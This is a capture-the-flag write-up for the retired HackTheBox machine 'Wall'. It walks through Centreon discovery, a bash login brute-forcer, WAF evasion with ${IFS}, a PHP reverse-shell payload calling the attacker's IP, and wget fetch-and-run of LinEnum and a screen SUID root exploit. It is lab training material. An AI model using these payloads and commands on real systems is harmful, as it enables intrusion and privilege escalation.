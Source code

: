 # HackTheBox: Wall.
My write up for the recently retired HackTheBox machine: Wall!

Wall was a fairly easy machine, although a little frustrating.

The machine had a web application vulnerable to RCE, however it was (semi) protected by a WAF.

Root access involved a vulnerable SUID binary.

## In the beginning..
As usual, I run nMap:

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Finding http on port 80 along with SSH on port 22.

### HTTP

Continuing with basic enumeration, I run dirb on the web app.

```console
$ dirb http://10.10.10.157/
```
Discovering these pages:
* aa.php
* server_status
* monitoring

/monitoring being the most interesting page, as it was protected by basic http authentication.

After attempting to login with common credentials and bruteforcing to no avail. I looked to the forums - finding this interesting post by @argot:

> English teachers can be very good at monitoring their class. Often times, if you use the wrong verb, they wont let you go. If you use different VERBS, maybe they'll let you go or at the very least they'll be more talkative.

## Verbs?
Instead of GET, a POST request to /monitoring results in:
```console
root@kali:~# curl -X POST "http://10.10.10.157/monitoring/" -d "username=u&password=p"
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>
<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
A redirection to /centreon!

  [Centreon](https://github.com/centreon/centreon) is one of the most flexible and powerful monitoring software on the market; it is absolutely free and Open Souce.

Looking around on centreon [documentation](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication), I found the login api was at:

  http://10.10.10.157/centreon/api/index.php?action=authenticate

### Bruteforcing script!
The documentation says the default username is admin.
So I wrote a quick script to bruteforce login API using rockyou:

```bash
#!/bin/bash
cat rockyou.txt | while read line
do
	echo "password=$line";
	curl -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line";
done

```
The script completes, finding the password to be password1.

### Attempting to pop a shell

Some research yields this related CVE: 
https://github.com/mhaskar/CVE-2019-13024

However it dosen't work. Why?

## WAF Evasion
A Web Application Firewall is blocking my attempts. 

I tested the WAF by hand, finding it results in status 403 when either 'nc' or ' ' (space character) were present.

So to inject the command, these two could not be present.

## ${IFS}
After some time studying at mhaskar's script, I decided to exploit using the GUI route.

Instead of space, I used ${IFS} to escape the char as well as a PHP exploit to bypass 'nc'.

* [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [StackExchange](https://security.stackexchange.com/questions/198928/reverse-php-shell-disconnecting-when-netcat-listener)

Using the above links, I crafted a payload that results in status 200, then put the payload into Commands > Misc and bound it to the poller.

Payload:
```php
php${IFS}-r${IFS}'$s=fsockopen("10.10.14.***",1337);$proc=proc_open("/bin/sh",array(0=>$s,1=>$s,2=>$s),$pipes);'
```
I then navigated to the page that mhaskar's script is sending requests to, checked the box that says 'post command' and hit export while listening on netcat.

Netcat listener:
```console
$ nc -lvp 1337
```
I got a shell!
```console
$ id
$ uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## www-data
Now I have a restricted shell - I need to perfrom some privilege escalation.

I used LinEnum by running the following on my machine in the directory that LinEnum was in.

```console
$ python -m SimpleHTTPServer 8000
```

And running the following on the target machine:

```console
$ wget 10.10.14.***:8000/LinEnum.sh
$ chmod +x LinEnum.sh
$ ./LinEnum.sh
```

## SUID PrivEsc

Looking through the LinEnum report, I spot a vulnerable SUID:
```console
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
After a bit of research, I found an [exploit](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)!

With accompanying script: [screen2root](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh).

In the same way as before I run the script on the target machine:
```console
$ wget 10.10.14.***:8000/screenroot.sh
$ chmod +x screenroot.sh
$ ./screenroot.sh
```

## Rooted!

After running the script, I get root access!

```console
$ whoami
$ root
```

I grab the root flag:
```console
$ cat /root/root.txt
$ 1fdbcf8c33eaa2599afdc52e1b4d5db7
```
And the user flag:
```console
$ cat /home/shelby/user.txt
$ fe6194544f452f62dc905b12f8da8406
```

## Cleaning up after myself
```console
$ cd /var/tmp
$ rm screenroot.sh
$ rm LinEnum.sh
```

## Thanks for reading :)

I've prepared writeups for Postman, Traverxec and Resolute. Check back when they're retired!
